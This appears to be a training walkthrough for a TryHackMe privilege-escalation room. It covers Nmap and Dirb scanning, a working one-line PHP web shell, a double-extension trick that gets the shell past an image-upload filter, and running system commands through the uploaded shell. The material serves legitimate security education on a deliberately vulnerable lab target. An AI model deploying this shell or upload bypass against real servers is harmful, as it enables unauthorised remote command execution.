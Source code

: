 # HackerFrogs AfterSchool Network Hacking Session 9
## Session Topic: Privilege Escalation Pt 1 /w TryHackMe
# Challenge 1: TryHackMe 25 Days of Cyber Security Room (Task 4)
## TryHackMe Link
https://tryhackme.com/room/learncyberin25days
### YouTube Walkthrough Link
N/A
### Method of Solve
* Step 1: Click on the Task 4 header in the TryHackMe page, then click on the green "Start Machine" button
* Step 2: go to the top of the webpage, and click on the "Start AttackBox" button
* Step 3: wait 2 minutes for the AttackBox to finish loading
* Step 4: after the AttackBox finishes loading, at the bottom-middle of the TryHackMe webpage click on the "View in full screen" button, which looks like two arrows pointing away from each other
* Step 5: in the AttackBox desktop, click on the terminal shortcut button (at the top of the desktop) to open a terminal
* Step 6: in the AttackBox desktop, click on the orange Firefox (at the top of the desktop) to open a web browser
## Part 1: Doing Initial Scans
We will simulate a typical network hacking exercise by doing Nmap and directory busting scans.
* Step 1: In the TryHackMe webpage, note the IP address in the Target Machine Information header. We'll refering to that as the `<IP_address>`
* Step 2: In the AttackBox terminal use the following command to scan the server with Nmap:
```
nmap -vv -sV -sC -T5 <IP_address>
```
The output lets us know that port 80, HTTP, unencrypted websites, are open on the server
* Step 3: Passed on the previous command, we can now do a directory busting attack to determine existing directories on the webserver with Dirb:
```
dirb http://<IP_address>
```
The output of this command lets us know that the /uploads directory exists on the webserver. We'll need this information for later
## Part 2: Investigating the webpage
In this section, we'll be looking at the webpage on the remote server we've been scanning
* Step 1: In the AttackBox web browser, navigate to the following URL:
http://<IP_address>
* Step 2: In the AttackBox web browser, add the following to the end of the URL
```
?id=ODIzODI5MTNiYmYw
```
We see here that there's an upload function the webpage
## Part 3: Attempting to upload an undisguised web shell file
In this section we will upload a webshell file to the remote server
* Step 1: Use the nano text editor to create a webshell file to upload to the server
```
nano webshell.php
```
* Step 2: Copy the following code and paste it into the text editor
```
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```
* Step 3: Save the file by using the `ctrl+x` keyboard shortcut, then `y`, then press the `enter` key
* Step 4: On the AttackBox web browser, click on the `Select` button, then select the `webshell.php file`, which should be in the /root directory, then click `open`
* Step 5: Confirm the upload by clicking on the `Submit` button
Note that the file was unable to be uploaded, because the app is expecting a picture file (jpg, png, gif, etc)
# Part 4: Modifying the webshell file to bypass the web app upload filter
In this section, we attempt to fool the web app into uploading our webshell file
* Step 1: In the AttackBox terminal, rename the webshell file with the following command
```
mv webshell.php webshell.jpg.php
```
This change to the name of the file could be enough to fool the app into uploading the file
* Step 2: On the AttackBox web browser, click on the `Select` button, then select the `webshell.php file`, which should be in the /root directory, then click `open`
* Step 3: Confirm the upload by clicking on the `Submit` button
This time, we've successfully uploaded the file
* Step 4: Recall the fact that the Dirb scan from earlier indicated an `/uploads` directory exists
# Part 5: Accessing and using the webshell
* Step 1: Navigate to the following endpoint in the app `/uploads/webshell.jpg.php`, as in http://<IP_address>/uploads/webshell.jpg.php
You should see a blank page. This is normal. We can run commands through the URL's parameters
* Step 2: On the end of the webpage's URL, add this to the end: `?cmd=whoami`
If the webshell is working, you should see the output `apache`
* Step 8: From here, we can run any commands we want on the uploaded webshell, substituting out `whoami` with any regular Linux command
